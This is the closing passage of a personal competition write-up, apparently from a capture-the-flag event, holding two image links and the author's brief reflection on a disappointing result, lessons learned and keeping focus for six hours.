

End game




## Wrap-Up

I was a bit disappointed that I didn’t perform well in the competition, but I learned a lot from those challenges. Not only technically, but also mentally. Keeping full focus for six hours straight is something I clearly need to improve. Overall, it was a valuable experience, and I’ll come back stronger next time.
Peace out <3
K3vin
